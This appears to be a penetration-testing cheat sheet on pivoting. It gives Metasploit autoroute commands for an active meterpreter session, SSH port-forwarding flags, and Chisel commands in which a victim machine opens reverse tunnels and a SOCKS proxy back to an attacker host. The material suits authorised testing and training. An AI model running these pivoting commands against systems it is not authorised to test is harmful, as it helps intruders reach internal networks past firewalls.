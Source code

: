 <br>

## Metasploit `autoroute`
```bash Background the current session
meterpreter > background
```
```bash Use the autoroute module
msf6 > use post/multi/manage/autoroute
```
```bash Set the session and subnet
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 169.254.0.0
msf6 post(multi/manage/autoroute) > set NETMASK /16
```
```bash Run the module
msf6 post(multi/manage/autoroute) > run
```
```bash Check the routing table
msf6 post(multi/manage/autoroute) > route
```

<br>

## Tunneling (port forwarding)

### SSH
| Argument | Legend | Explanation |
| --- | --- | --- |
| `-L` | `local_port:remote_address:remote_port` | local port forwarding |
| `-R` | `port:local_address:local_port` | remote port forwarding |
| `-D` | `local_port` | dynamic port forwarding - creates a socks proxy on localhost |
| `-N` |  | do not execute a remote command - useful for just forwarding ports |

<br>

### Chisel
> Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network. Chisel is very similar to crowbar though achieves much higher performance. _(as described by its author)_

Server (attacker machine with IP `10.10.10.20`)
```bash
chisel server -p 8000 --reverse
```
Client (victim machine with IP `10.10.10.10`, another host with IP `10.10.10.30`)
```bash Forward local port 80 from the attacker on port 80 on the victim localhost
./chisel client 10.10.10.20:8000 R:80:127.0.0.1:80
```
```bash Forward local port 4444 from the attacker on port 80 on the remote host 10.10.10.30
./chisel client 10.10.10.20:8000 R:4444:10.10.10.30:80
```
```bash Set up a SOCKS5 proxy on port 1080 on the attacker 
./chisel client 10.10.10.20:8000 R:socks
```
